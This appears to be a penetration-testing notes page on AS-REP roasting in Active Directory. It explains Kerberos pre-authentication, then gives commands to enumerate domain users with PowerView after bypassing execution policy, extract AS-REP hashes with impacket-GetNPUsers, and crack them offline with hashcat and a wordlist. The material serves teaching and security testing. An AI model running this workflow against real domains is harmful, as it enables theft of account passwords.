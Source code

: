 # AS-REP roasting

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/b4af186e-b2ff-43f9-b18e-eedb366abf13" %}

{% embed url="https://www.picussecurity.com/resource/blog/as-rep-roasting-attack-explained-mitre-attack-t1558.004" %}

{% embed url="https://jumpcloud.com/it-index/what-is-as-rep-roasting" %}

{% embed url="https://www.kali.org/tools/impacket-scripts/#impacket-getnpusers" %}

{% embed url="https://www.netwrix.com/as-rep-roasting.html" %}

### What is AS-REP roasting?

#### Pre-authentication enabled

In a standard Kerberos authentication flow (with pre-authentication active), a user initiates the process by sending an **authentication service request** (**KRB\_AS\_REQ**) to the KDC, with a timestamp encrypted using its own password. The KDC will validate the timestamp (using its stored version of the user's password), and if valid, response with an **authentication service response** (**KRB\_AS\_REP**) containing a TGT.

#### Pre-authentication disabled

However, with pre-authentication disabled, the KDC prematurely sends an **authentication service response** (**KRB\_AS\_REP**) upon receiving the **KRB\_AS\_REQ** for a particular user acount, without requiring any valid authentication details. This response includes a segment encrypted with a user's password hash (the user will be specified in the **KRB\_AS\_REQ**). This allows an an attacker to extract the encrypted data without knowledge of any authentication credentials, to perform offline brute-force or dictionary attacks to obtain the user's password.

### (1) Retrieve a list of user accounts

First, we have to retrieve a list of user accounts in the AD network:

```powershell
C:\> powershell -ep bypass
PS> Import-Module PowerView.ps1
PS>  Get-DomainUser
```

### (2) Enumerate user accounts with pre-authentication disabled, and perform AS-REQ

Next, we can use the `impacket-GetNPUsers` script which&#x20;

> Queries target domain for users with 'Do not require Kerberos\
> preauthentication' set and export their TGTs for cracking:

{% code overflow="wrap" %}
```sh
$ impacket-GetNPUsers -dc-ip <DOMAIN_CONTROLLER> -usersfile <PATH_TO_USERS_LIST> -format {hashcat,john} <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * as long as a valid user account is provided, this value will not affect the results of the script
* `-dc-ip:` Address of the domain controller
* `-usersfile:` List of domain users to check against (retrieved from previous step)
* `-format:` Output format (hashcat or john). Default is hashcat.

With this, we should retrieve the TGTs for users with the pre-authentication disabled.

### (3) Offline cracking

Given that we output the hashes in hashcat format, we can perform the following commands to crack the passwords:

```sh
$ hashcat -a 0 -m <hash_mode> <path_to_hashes> <wordlist>

# eg. 
$ echo xxx > hashes.txt
$ hashcat -a 0 -m <hash_mode> hashes.txt /usr/share/wordlist/rockyou.txt
```

* `-a`: Attack mode
  * `-a 0`: Dictionary attack
  * `-m` : Hash mode
* `-m <hash_mode>`: either one of **18200, 32100, 32200** (depending on the encryption type of the hashes obtained)



